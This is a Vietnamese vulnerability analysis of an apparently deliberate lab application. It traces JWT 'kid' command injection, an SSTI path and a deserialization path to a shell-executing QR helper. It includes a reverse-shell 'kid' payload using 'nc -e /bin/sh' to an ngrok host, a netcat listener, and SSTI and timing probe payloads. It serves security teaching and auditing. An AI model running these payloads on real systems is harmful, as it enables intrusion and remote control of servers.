| Source chính của Blind CI | JWT header `kid` trong `Authorization: Bearer <jwt>`                                                                        |
| Source vào hidden QR sink | SSTI template gọi `QRCodeHelper`, hoặc Deserialize gadget gọi `BookingRequest.getQrCode()`                                  |
| Normal business sources   | Đã có guard cho signup/update email và booking `quote/hold/confirm` promotion code                                          |
| Blind signal              | Không trả stdout trực tiếp; xác nhận bằng delay, file marker, DNS/OOB, log hoặc side effect                                 |
| File quan trọng           | `JwtUtils`, `QRCodeHelper`, `BookingRequest`, `BookingServiceImpl`, `BookingController`, `AuthController`, `UserController` |

> **Nhận định:** Blind Command Injection chính của WebLab là JWT `kid` injection. `QRCodeHelper` vẫn là command execution sink thật, nhưng hiện được xem như hidden final sink cho hai chain khác: SSTI và Insecure Deserialization. Các nguồn business bình thường dẫn đến sink này có bộ lọc nên không thể biến QR sink thành Blind Command Injection.

***

## 2. Sink -> Source

### 2.1. Fuzz dangerous function để tìm sink candidate

| Nhóm fuzz              | Pattern cần tìm                     | Kết quả trong repo                       | Đánh giá                           |
| ---------------------- | ----------------------------------- | ---------------------------------------- | ---------------------------------- |
| Java command execution | `Runtime.getRuntime().exec`         | `QRCodeHelper.renderQrCode(...)`         | Command execution sink B           |
| Java subprocess        | `new ProcessBuilder`                | `JwtUtils.resolveKeyFromKidCommand(...)` | Command execution sink A           |
| Shell execution        | `"/bin/sh", "-c"`                   | Cả `JwtUtils` và `QRCodeHelper`          | Shell metacharacter có hiệu lực    |
| String-built command   | `replace("{kid}", kid)`             | `JwtUtils`                               | JWT header đi vào command template |
| String concatenation   | `"qrencode ... " + resolvedContent` | `QRCodeHelper`                           | QR content đi vào shell command    |

Kết quả fuzz có 2 sink cần ghi nhận:

| Sink   | File                                               | Function                        | Vai trò hiện tại                                       |
| ------ | -------------------------------------------------- | ------------------------------- | ------------------------------------------------------ |
| Sink A | `src/main/java/org/example/security/JwtUtils.java` | `resolveKeyFromKidCommand(kid)` | Blind Command Injection chính                          |
| Sink B | `src/main/java/org/example/util/QRCodeHelper.java` | `renderQrCode(qrContent)`       | Hidden final sink tiềm năng cho chuỗi tấn công sâu hơn |

***

### 2.2. Sink A - JWT `kid` command lookup

Code sink:

```java
// src/main/java/org/example/security/JwtUtils.java
String kid = header.getKeyId(); // [SOURCE: attacker-controlled JWT header]
if (StringUtils.hasText(kid) && !verificationKeys.containsKey(kid)) {
    Key commandLoadedKey = resolveKeyFromKidCommand(kid);
    if (commandLoadedKey != null) {
        return commandLoadedKey;
    }
}

private Key resolveKeyFromKidCommand(String kid) {
    String command = kidKeyCommandTemplate.replace("{kid}", kid); // [COMMAND BUILD]

    Process process = new ProcessBuilder("/bin/sh", "-c", command)
            .redirectErrorStream(true)
            .start(); // [SINK]
    ...
}
```

Config command template:

```properties
app.jwt.kid-key-command-template=${JWT_KID_KEY_COMMAND_TEMPLATE:cat ./jwt-{kid}.pem}
```

Trace ngược từ sink về source:



Điểm lỗi:

| Điểm                                   | Vì sao nguy hiểm                                                  |
| -------------------------------------- | ----------------------------------------------------------------- |
| `kid` là JWT header                    | Header do client tự tạo, không phải trust boundary an toàn        |
| Unknown `kid` kích hoạt command lookup | Attacker chỉ cần dùng `kid` không có trong `verificationKeys`     |
| `replace("{kid}", kid)` không validate | Shell metacharacter giữ nguyên                                    |
| `/bin/sh -c`                           | `;`, `&&`,  `$()` có thể được sử dụng để nối command ngoài ý muốn |
| Output không trả về response           | Phân loại blind, cần side effect/timing/OOB                       |

### 2.3. Sink B - `QRCodeHelper.renderQrCode(qrContent)`

Code sink:

```java
// src/main/java/org/example/util/QRCodeHelper.java
public String renderQrCode(String qrContent) {
    String resolvedContent = qrContent == null || qrContent.isBlank()
            ? "anonymous-member"
            : qrContent;
    String filename = "QR-" + Integer.toHexString(resolvedContent.hashCode()) + ".svg";
    Path outputDir = Paths.get(resolveUploadDir(), QR_UPLOAD_SUBDIR).toAbsolutePath().normalize();
    Path outputPath = outputDir.resolve(filename).normalize();

    String command = "qrencode -t SVG -o " + outputPath + " " + resolvedContent; // [COMMAND BUILD]
    Process process = Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", command }); // [SINK]
    ...
    return QR_URL_PREFIX + filename;
}
```

`QRCodeHelper` còn expose cho Freemarker:

```java
@Override
public Object exec(List arguments) throws TemplateModelException {
    if (arguments.isEmpty()) {
        return "";
    }

    return renderQrCode(toPlainString((TemplateModel) arguments.get(0)));
}
```

#### 2.3.1. Inventory call-site từ sink B

Sau khi xác định sink là `QRCodeHelper.renderQrCode(qrContent)`, trace ngược tất cả nơi có thể gọi sink:

| Call-site                      | Đường gọi vào sink                                                                                                | Source/path có nguy cơ                                                                              | Trạng thái hiện tại                                           |
| ------------------------------ | ----------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| Default profile themes         | `light_mode.ftl` / `dark_mode.ftl` -> `memberQr(email)`                                                           | `User.email` từ DB, tạo qua signup hoặc update profile                                              | **Được bảo vệ** bằng strict email guard                       |
| Custom/SSTI profile theme      | `CustomThemeLoader.renderTemplateSource(...)` parse attacker-selected template                                    | Persisted `profileTheme`, file/log content được load thành Freemarker template                      | **Còn nguy cơ**, là SSTI path                                 |
| Booking quote                  | `/api/v1/booking/quote` -> `BookingServiceImpl.buildResponse(...)` -> `request.getQrCode()`                       | `BookingRequest.promotionCode` từ JSON/frontend                                                     | **Được bảo vệ** bằng `rejectUnsafeBusinessPromotionCode(...)` |
| Booking hold                   | `/api/v1/booking/hold` -> `BookingOrder.qrCode(request.getQrCode())`                                              | `BookingRequest.promotionCode` từ JSON/frontend                                                     | **Được bảo vệ** bằng `rejectUnsafeBusinessPromotionCode(...)` |
| Booking direct confirm         | `/api/v1/booking/confirm` không có `orderId` -> `buildResponse(...)` -> `request.getQrCode()`                     | `BookingRequest.promotionCode` từ JSON/frontend                                                     | **Được bảo vệ** bằng `rejectUnsafeBusinessPromotionCode(...)` |
| Booking order confirm fallback | `/api/v1/booking/confirm` có `orderId` -> `orderRequest.getQrCode()` nếu `order.qrCode == null`                   | `orderId` và `transactionIds` dạng số; không có `promotionCode` trong fallback object               | Nguy cơ command thấp, không mang shell metacharacter          |
| Draft import / Deserialize     | `/api/v1/booking/draft/import` -> `ObjectInputStream.readObject()` -> Rome gadget -> `BookingRequest.getQrCode()` | Serialized object attacker upload; `promotionCode` nằm trong object graph                           | **Còn nguy cơ**, là Insecure Deserialize path                 |



#### 2.3.2. Profile default theme path - source được bảo vệ

Default theme gọi helper bằng `email`:

```ftl
<#assign memberQr = 'org.example.util.QRCodeHelper'?new()>
<#assign memberQrUrl = memberQr(email)>
```

Khi apply fix sandbox cho SSTI, hai dòng trên phải bị bỏ khỏi cả `light_mode.ftl` và `dark_mode.ftl`. QR vẫn hiển thị bằng cách đưa URL tĩnh vào model:

```java
// src/main/java/org/example/controller/ProfileViewController.java
String profileEmail = valueOrDefault(user.getEmail());
model.put("email", profileEmail);
model.put("memberQrUrl", new org.example.util.QRCodeHelper().renderQrCode(profileEmail));
```

```ftl

```

`email` được đưa vào model từ user hiện tại:

```java
// src/main/java/org/example/controller/ProfileViewController.java
model.put("email", valueOrDefault(user.getEmail()));
```

Source ghi email có hai path chính:

```java
// src/main/java/org/example/controller/AuthController.java
String email = normalizeSignupEmail(signUpRequest.getEmail());
user.setEmail(email);

// src/main/java/org/example/controller/UserController.java
normalizeEditableEmail(user, existingUser);
userService.save(user);
```

Các hàm `normalize()` này áp dụng các bộ lọc:

```java
private static final Pattern SAFE_SIGNUP_EMAIL = Pattern.compile("^[A-Za-z0-9][A-Za-z0-9._%+-]{0,63}@" + "[A-Za-z0-9](?:[A-Za-z0-9-]{0,61}[A-Za-z0-9])?" + "(?:\\.[A-Za-z0-9](?:[A-Za-z0-9-]{0,61}[A-Za-z0-9])?)+$");

private static final Pattern SAFE_PROFILE_QR_EMAIL = Pattern.compile("^[A-Za-z0-9][A-Za-z0-9._%+-]{0,63}@" + "[A-Za-z0-9](?:[A-Za-z0-9-]{0,61}[A-Za-z0-9])?" + "(?:\\.[A-Za-z0-9](?:[A-Za-z0-9-]{0,61}[A-Za-z0-9])?)+$");
```

Vì vậy có thể kết luận:

| Source | Guard | Kết luận |
|---|---|---|
| `POST /api/v1/auth/signup` | `SAFE_SIGNUP_EMAIL` | Không còn đưa shell metacharacter vào `memberQr(email)` được |
| `PUT /api/v1/user` | `SAFE_PROFILE_QR_EMAIL` | Không còn update email thành command payload được |
| `GET /api/v1/profile/basic-info` default theme | Vẫn gọi `memberQr(email)` | Sink vẫn chạy, nhưng input email đã được ép format an toàn |

#### 2.3.3. Custom theme / SSTI path - source còn nguy cơ

Route profile lấy theme từ `user.profileTheme` đã persisted:

```java
// src/main/java/org/example/controller/ProfileViewController.java
String themeName = resolveThemeName(user);
return customThemeLoader.loadProfileTheme(themeName, buildProfileModel(user));
```

`UserController` vẫn cho client gửi `profileTheme`:

```java
// src/main/java/org/example/controller/UserController.java
if (user.getProfileTheme() == null) {
    user.setProfileTheme(existingUser.getProfileTheme());
}
userService.save(user);
```

`CustomThemeLoader` thử classpath trước, sau đó fallback filesystem/custom theme:

```java
// src/main/java/org/example/util/CustomThemeLoader.java
Template template = configuration.getTemplate("themes/" + themeName);

Path resolvedThemePath = customThemeRoot.resolve(themeName);
String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
return renderTemplateSource(templateSource, model);
```

Nội dung file được parse thành Freemarker template:

```java
Template template = new Template("filesystem-profile-theme", new StringReader(templateSource), configuration);
template.process(model, writer);
```

Nếu attacker điều khiển được template content qua custom theme/LFI log poisoning, template có thể gọi sink B trực tiếp:

```ftl
<#assign qr = 'org.example.util.QRCodeHelper'?new()>
${qr('demo; touch /tmp/weblab-qr-ssti-marker; #')}
```

Kết luận path:

| Source/path                     | Trạng thái                              | Vì sao vẫn nguy cơ                                            |
| ------------------------------- | --------------------------------------- | ------------------------------------------------------------- |
| `user.profileTheme`             | Có thể persisted qua `PUT /api/v1/user` | Chưa ép allowlist, fix đang trong comment block               |
| Filesystem/custom theme content | Có thể là file/log bị chọn              | `renderTemplateSource(...)` compile nội dung thành Freemarker |
| Freemarker `?new()`             | Vẫn cho khởi tạo `QRCodeHelper`         | Template có thể tự truyền command payload vào helper          |

#### 2.3.4. Booking quote/hold/confirm path - source được bảo vệ

Frontend gửi `promotionCode` vào booking payload:

```javascript
const buildBookingPayload = (bookingData, promotionCode = "") => {
  return {
    transactionIds: (bookingData?.selectedSeats || []).map((seat) => seat.id),
    orderId: bookingData?.orderId || null,
    promotionCode: promotionCode || null,
  };
};
```

`BookingRequest.getQrCode()` gọi trực tiếp sink B:

```java
// src/main/java/org/example/payload/BookingRequest.java
@JsonIgnore
public String getQrCode() {
    return new QRCodeHelper().renderQrCode(buildQrCodeContent());
}
```

Các business endpoint đã gọi guard trước khi vào service:

```java
// src/main/java/org/example/controller/BookingController.java
rejectUnsafeBusinessPromotionCode(request);

private void rejectUnsafeBusinessPromotionCode(BookingRequest request) {
    if (request == null || request.getPromotionCode() == null || request.getPromotionCode().isBlank()) {
        return;
    }

    String promotionCode = request.getPromotionCode().trim();
    if (!SAFE_BUSINESS_PROMOTION_CODE.matcher(promotionCode).matches()) {
        throw new IllegalArgumentException("Invalid promotion code");
    }
    request.setPromotionCode(promotionCode);
}
```

Các vị trí service vẫn gọi `request.getQrCode()`:

| Service call-site                                       | Input vào `buildQrCodeContent()`                               | Trạng thái                                      |
| ------------------------------------------------------- | -------------------------------------------------------------- | ----------------------------------------------- |
| `hold(...)` -> `.qrCode(request.getQrCode())`           | `transactionIds`, `orderId`, `promotionCode`                   | Được bảo vệ ở controller `/hold`                |
| `buildResponse(...)` cho quote/direct confirm           | `transactionIds`, `orderId`, `promotionCode`                   | Được bảo vệ ở controller `/quote` và `/confirm` |
| `confirmOrder(...)` fallback `orderRequest.getQrCode()` | `orderId`, numeric `transactionIds`, không set `promotionCode` | Không có shell metacharacter source thực tế     |

Kết luận path:

| Source/path                                    | Trạng thái | Ghi chú                                          |
| ---------------------------------------------- | ---------- | ------------------------------------------------ |
| `/api/v1/booking/quote` JSON `promotionCode`   | An toàn    | Reject ngoài `^[A-Z0-9_-]{1,32}$`                |
| `/api/v1/booking/hold` JSON `promotionCode`    | An toàn    | Không còn dùng được làm blind CI chính           |
| `/api/v1/booking/confirm` JSON `promotionCode` | An toàn    | Direct confirm được chặn trước service           |
| `confirmOrder(orderId)` fallback               | An toàn    | Object tự dựng từ số, không mang `promotionCode` |

#### 2.3.5. Draft import / Deserialize path - source còn nguy cơ

`draft/import` không đi qua `rejectUnsafeBusinessPromotionCode(...)`; endpoint nhận raw serialized bytes:

```java
// src/main/java/org/example/controller/BookingController.java
@PostMapping(value = "/draft/import", consumes = MediaType.APPLICATION_OCTET_STREAM_VALUE)
public ResponseEntity<?> importDraft(@RequestBody byte[] draftBytes, Authentication authentication) {
    return ResponseEntity.ok().body(bookingService.importDraft(draftBytes, userId));
}
```

Service deserialize trước mọi bộ lọc bảo vệ:

```java
// src/main/java/org/example/serviceImpl/BookingServiceImpl.java
try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(draftBytes))) {
    importedDraft = input.readObject();
}
```

Repo có sử dụng thư viện `Rome 1.0` có Deserialize Gadget Chain:

```xml
<dependency>
	<groupId>rome</groupId>
	<artifactId>rome</artifactId>
	<version>1.0</version>
</dependency>
```

Flow sink -> source của Deserialize:



Kết luận path:

| Source/path                                                   | Trạng thái                   | Vì sao còn nguy cơ                                   |
| ------------------------------------------------------------- | ---------------------------- | ---------------------------------------------------- |
| `/api/v1/booking/draft/import` body bytes                     | Không có promotionCode guard | Source là object graph, không phải JSON DTO          |
| Rome `ObjectBean` chain                                       | Gadget Chain khả dụng        | Có thể gọi getter trong quá trình deserialize/hash   |
| `BookingRequest.promotionCode` trong serialized bytes payload | Không qua controller guard   | Đi vào `buildQrCodeContent()` rồi vào `QRCodeHelper` |

#### 2.3.6. Kết luận sink B sau khi truy ngược toàn bộ source

| Nhánh source                                                 | Có chạm sink B? | Hiện có khai thác được như Blind CI riêng không? | Ghi chú                              |
| ------------------------------------------------------------ | --------------: | -----------------------------------------------: | ------------------------------------ |
| Signup email -> default profile QR                           |              Có |                                            Không | Guard `SAFE_SIGNUP_EMAIL`            |
| Update email -> default profile QR                           |              Có |                                            Không | Guard `SAFE_PROFILE_QR_EMAIL`        |
| Stored `profileTheme` -> custom Freemarker template          |              Có |                                     Có, qua SSTI | SSTI path                            |
| Booking quote/hold/direct confirm `promotionCode`            |              Có |                                            Không | Guard `SAFE_BUSINESS_PROMOTION_CODE` |
| Confirm order fallback                                       |              Có |                                            Không | Không có string payload source       |
| Draft import serialized bytes                                |              Có |                              Có, qua Deserialize | Deserialize path                     |

***

## 3. Source -> Sink

### 3.1. JWT `kid` source -> sink



Payload shape:

```json
{
  "alg": "RS256",
  "kid": "; nc -e /bin/sh 0.tcp.ap.ngrok.io <port>; #",
  "typ": "JWT"
}
```

Mở netcat listener để bắt shell:

```bash
{ printf 'echo "[KTVWebLab] shell connected: $(id) @ $(hostname)"\n'; cat; } | nc -lvn 9999
```

Expected blind signal:

| Signal                                                                                                     | Ý nghĩa                                                         |
| ---------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------- |
| netcat bắt shell thành công và hiển thị output của lệnh `[KTVWebLab] shell connected: $(id) @ $(hostname)` | `kid` đã đi vào shell và đã mở được reverse shell               |
| Response có thể vẫn là 401/403                                                                             | Side effect xảy ra trong key resolution trước khi auth hoàn tất |
| `kid = missing; sleep 5; #` làm response chậm                                                              | Time-based blind signal                                         |
| OOB/DNS callback                                                                                           | Dùng khi không đọc được filesystem/log                          |

### 3.2. Sink B - toàn bộ source/path -> `QRCodeHelper` sink

Phần này đi theo hướng source -> sink cho **mọi path có thể chạm `QRCodeHelper.renderQrCode(...)`**, kể cả path đã được bảo vệ. Mục tiêu là phân biệt rõ: path nào chỉ còn là luồng nghiệp vụ an toàn, path nào là chain cho SSTI/Deserialize.



#### 3.2.1. Profile default email source -> sink, đã bảo vệ

Source tạo/cập nhật email:

```java
// src/main/java/org/example/controller/AuthController.java
String email = normalizeSignupEmail(signUpRequest.getEmail());
user.setEmail(email);

// src/main/java/org/example/controller/UserController.java
normalizeEditableEmail(user, existingUser);
userService.save(user);
```

Profile render source vào template:

```java
// src/main/java/org/example/controller/ProfileViewController.java
model.put("email", valueOrDefault(user.getEmail()));
return customThemeLoader.loadProfileTheme(themeName, buildProfileModel(user));
```

Default template gọi helper:

```ftl
<#assign memberQr = 'org.example.util.QRCodeHelper'?new()>
<#assign memberQrUrl = memberQr(email)>
```

Fixed flow không để Freemarker gọi helper nữa; controller tạo `memberQrUrl`, template chỉ render URL đã có:

```java
String profileEmail = valueOrDefault(user.getEmail());
model.put("email", profileEmail);
model.put("memberQrUrl", new org.example.util.QRCodeHelper().renderQrCode(profileEmail));
```

```ftl

```

Sequence:



| Step                   | Status  | Security note                                             |
| ---------------------- | ------- | --------------------------------------------------------- |
| Signup email           | An toàn | `SAFE_SIGNUP_EMAIL` chặn shell metacharacter              |
| Update email           | An toàn | `SAFE_PROFILE_QR_EMAIL` chặn payload command              |
| Default profile render | An toàn | Sink chạy để tạo QR, nhưng source đã bị ép format an toàn |

#### 3.2.2. Custom theme / SSTI source -> sink, còn nguy cơ

Source chọn theme:

```java
// src/main/java/org/example/controller/ProfileViewController.java
String themeName = resolveThemeName(user);
return customThemeLoader.loadProfileTheme(themeName, buildProfileModel(user));
```

Source persisted `profileTheme` từ user update:

```java
// src/main/java/org/example/controller/UserController.java
if (user.getProfileTheme() == null) {
    user.setProfileTheme(existingUser.getProfileTheme());
}
userService.save(user);
```

Loader biến file content thành Freemarker template:

```java
// src/main/java/org/example/util/CustomThemeLoader.java
Path resolvedThemePath = customThemeRoot.resolve(themeName);
String templateSource = Files.readString(resolvedThemePath, StandardCharsets.UTF_8);
return renderTemplateSource(templateSource, model);

Template template = new Template("filesystem-profile-theme", new StringReader(templateSource), configuration);
template.process(model, writer);
```

SSTI template có thể gọi helper trực tiếp:

```ftl
<#assign qr = 'org.example.util.QRCodeHelper'?new()>
${qr('payload-controlled-content')}
```

Sequence:



| Step                         | Status | Security note                                                         |
| ---------------------------- | ------ | --------------------------------------------------------------------- |
| `user.profileTheme`          | Rủi ro | Persisted selector chưa enforce allowlist                             |
| Filesystem theme/log content | Rủi ro | Content được compile thành template                                   |
| `QRCodeHelper?new()`         | Rủi ro | Template có thể truyền payload trực tiếp, không phụ thuộc email guard |

#### 3.2.3. Booking quote/hold/direct confirm source -> sink, đã bảo vệ

Frontend source:

```javascript
const buildBookingPayload = (bookingData, promotionCode = "") => {
  return {
    transactionIds: (bookingData?.selectedSeats || []).map((seat) => seat.id),
    orderId: bookingData?.orderId || null,
    promotionCode: promotionCode || null,
  };
};
```

Controller guard:

```java
// src/main/java/org/example/controller/BookingController.java
rejectUnsafeBusinessPromotionCode(request);

private void rejectUnsafeBusinessPromotionCode(BookingRequest request) {
    if (request == null || request.getPromotionCode() == null || request.getPromotionCode().isBlank()) {
        return;
    }

    String promotionCode = request.getPromotionCode().trim();
    if (!SAFE_BUSINESS_PROMOTION_CODE.matcher(promotionCode).matches()) {
        throw new IllegalArgumentException("Invalid promotion code");
    }
    request.setPromotionCode(promotionCode);
}
```

Service calls:

```java
// src/main/java/org/example/serviceImpl/BookingServiceImpl.java
.qrCode(request.getQrCode())

// src/main/java/org/example/payload/BookingRequest.java
public String getQrCode() {
    return new QRCodeHelper().renderQrCode(buildQrCodeContent());
}
```

Sequence:



| Path                             | Status  | Security note                                   |
| -------------------------------- | ------- | ----------------------------------------------- |
| `/api/v1/booking/quote`          | An toàn | Guard chạy trước `bookingService.quote(...)`    |
| `/api/v1/booking/hold`           | An toàn | Guard chạy trước `.qrCode(request.getQrCode())` |
| `/api/v1/booking/confirm` direct | An toàn | Guard chạy trước direct confirm service path    |

#### 3.2.4. Confirm order fallback source -> sink, rủi ro thấp

Khi confirm theo `orderId`, service tự dựng `BookingRequest` fallback:

```java
// src/main/java/org/example/serviceImpl/BookingServiceImpl.java
BookingRequest orderRequest = new BookingRequest();
orderRequest.setOrderId(order.getId());
orderRequest.setTransactionIds(parseOrderTransactionIds(order));

String qrCode = order.getQrCode() == null ? orderRequest.getQrCode() : order.getQrCode();
```

Flow:

```mermaid
flowchart TD
    C1["POST /api/v1/booking/confirm { orderId }"]
    C2["resolveOwnedOrder(orderId,user.id)"]
    C3["orderRequest.setOrderId(order.getId())"]
    C4["orderRequest.setTransactionIds(parseOrderTransactionIds(order))"]
    C5["orderRequest.getQrCode() if order.qrCode is null"]
    C6["QRCodeHelper.renderQrCode('ORDER_id+ids+NO_PROMOTION')"]
    C7["Runtime.exec shell sink"]

    C1 --> C2 --> C3 --> C4 --> C5 --> C6 --> C7
```

| Source           | Status              | Security note                              |
| ---------------- | ------------------- | ------------------------------------------ |
| `orderId`        | Numeric             | Không mang shell metacharacter             |
| `transactionIds` | Parsed integer list | Không mang shell metacharacter             |
| `promotionCode`  | Not set             | `buildQrCodeContent()` dùng `NO_PROMOTION` |

#### 3.2.5. Draft import / Deserialize source -> sink, còn nguy cơ

Endpoint source:

```java
// src/main/java/org/example/controller/BookingController.java
@PostMapping(value = "/draft/import", consumes = MediaType.APPLICATION_OCTET_STREAM_VALUE)
public ResponseEntity<?> importDraft(@RequestBody byte[] draftBytes, Authentication authentication) {
    return ResponseEntity.ok().body(bookingService.importDraft(draftBytes, userId));
}
```

Deserialize sink upstream:

```java
// src/main/java/org/example/serviceImpl/BookingServiceImpl.java
try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(draftBytes))) {
    importedDraft = input.readObject();
}
```

Getter chain to QR sink:

```java
// src/main/java/org/example/payload/BookingRequest.java
@JsonIgnore
public String getQrCode() {
    return new QRCodeHelper().renderQrCode(buildQrCodeContent());
}
```

Sequence:

```mermaid
sequenceDiagram
    actor Attacker
    participant Import as POST /api/v1/booking/draft/import
    participant Service as BookingServiceImpl
    participant OIS as ObjectInputStream
    participant Rome as Rome ObjectBean
    participant Req as BookingRequest
    participant QR as QRCodeHelper
    participant Shell as /bin/sh -c

    Attacker->>Import: Upload serialized bytes
    Import->>Service: importDraft(draftBytes,userId)
    Service->>OIS: readObject()
    OIS->>Rome: Rehydrate gadget graph
    Rome->>Req: Trigger getter path
    Req->>QR: getQrCode()
    QR->>Shell: qrencode command with promotionCode from object graph
    Shell-->>QR: Side effect / reverse connection / delay
```

| Step | Status | Security note |
|---|---|---|
| Raw body bytes | Rủi ro | Không bind qua JSON DTO |
| `ObjectInputStream.readObject()` | Rủi ro | Native deserialization trước validation |
| `BookingRequest.promotionCode` | Rủi ro | Không đi qua `rejectUnsafeBusinessPromotionCode(...)` |
| `BookingRequest.getQrCode()` | Rủi ro | Getter gọi thẳng `QRCodeHelper` |

#### 3.2.6. Source -> Sink kết luận cho Sink B

| Source/path | Đi tới sink B như thế nào | Guard hiện tại | Kết luận |
|---|---|---|---|
| Signup email | `signup -> User.email -> memberQr(email) -> QRCodeHelper` | `SAFE_SIGNUP_EMAIL` | Chạm sink nhưng không còn command source |
| Update email | `PUT /user -> User.email -> memberQr(email) -> QRCodeHelper` | `SAFE_PROFILE_QR_EMAIL` | Chạm sink nhưng không còn command source |
| Stored `profileTheme` | `PUT /user -> profileTheme -> CustomThemeLoader -> Freemarker -> QRCodeHelper` | Fix đang comment | Còn là persisted SSTI selector |
| Booking `promotionCode` | `FlightConfirm -> BookingRequest -> getQrCode() -> QRCodeHelper` | `SAFE_BUSINESS_PROMOTION_CODE` | Chạm sink nhưng không còn command source |
| Confirm order fallback | `orderId -> orderRequest.getQrCode() -> QRCodeHelper` | Numeric/object-built data | Rủi ro command thấp |
| Draft import bytes | `serialized bytes -> readObject -> Rome getter -> getQrCode() -> QRCodeHelper` | Không có controller guard | Còn là Deserialize path |

***

## 4. Phân biệt 2 sink trong report

| Tiêu chí           | Sink A - JWT `kid`                                  | Sink B - `QRCodeHelper`                              |
| ------------------ | --------------------------------------------------- | ---------------------------------------------------- |
| Vai trò            | Blind Command Injection chính                       | Hidden command sink cuối                             |
| Entry source       | JWT header `kid`                                    | SSTI template hoặc serialized gadget                 |
